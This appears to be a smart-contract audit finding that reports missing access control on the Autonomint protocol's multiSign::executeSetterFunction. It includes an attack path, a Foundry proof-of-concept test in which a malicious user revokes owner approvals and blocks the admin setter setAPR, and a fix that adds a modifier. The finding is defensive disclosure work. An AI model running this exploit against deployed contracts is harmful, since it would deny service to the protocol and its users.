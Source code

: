 Muscular Orchid Cyborg

High

# multiSign::executeSetterFunction will lead to protocol insolvency

### Summary

The `multiSign::executeSetterFunction` will allow anyone to call it and change the state of the mapping `approvedToUpdate` to false for each owner which will deny the owners from calling admin setter functions such as `Borrowing::setAPR`.

[multiSign::executeSetterFunction](https://github.com/sherlock-audit/2024-11-autonomint/blob/0d324e04d4c0ca306e1ae4d4c65f0cb9d681751b/Blockchain/Blockchian/contracts/Core_logic/multiSign.sol#L304)

### Root Cause

`multiSign::executeSetterFunction` has no access control and can be called by anyone.

### Internal pre-conditions

- Owners approve a setter function to be called by an admin

### External pre-conditions

None

### Attack Path

1. Owners approve a setter function to be called such as `Borrowing::setAPR`
2. Malicious user calls `multiSign::executeSetterFunction` to set `approvedToUpdate` to false
3. Owner attempts to call `setAPR` but reverts since `approvedToUpdate` is false

### Impact

- Permanent DoS of all admin functions and protocol insolvency since treasury address can not be set if exploited.

### PoC

- Insert the PoC in `borrowing.t.sol`
- Run the test with `forge test --fork-url http://127.0.0.1:8545 --mt testExecuteSetterFunctionCalledByAnyone -vvvv`

```javascript
function testExecuteSetterFunctionCalledByAnyone() public {
        // Owners approve setter function setAPR to update protocol
        vm.startPrank(owner);
        uint8[] memory functions = new uint8[](1);
        functions[0] = uint8(MultiSign.SetterFunctions.SetAPR);
        contractsB.multiSign.approveSetterFunction(functions);
        vm.stopPrank();
        vm.startPrank(owner1);
        functions[0] = uint8(MultiSign.SetterFunctions.SetAPR);
        contractsB.multiSign.approveSetterFunction(functions);
        vm.stopPrank();

        // Malicious user calls executeSetterFunction to set approvedToUpdate to false
        vm.startPrank(USER);
        contractsB.multiSign.executeSetterFunction(MultiSign.SetterFunctions.SetAPR);
        vm.stopPrank();

        // Owner tries to set APR, but reverts since user set approvedToUpdate to false with executeSetterFunction
        vm.startPrank(owner);
        vm.expectRevert();
        contractsB.borrow.setAPR(10,10);
        vm.stopPrank();
    }
```

### Mitigation

Add onlyOwners modifier to `multiSign::executeSetterFunction` to prevent this vulnerability

```diff
function executeSetterFunction(
        SetterFunctions _function
+   ) external onlyOwners (bool) 
```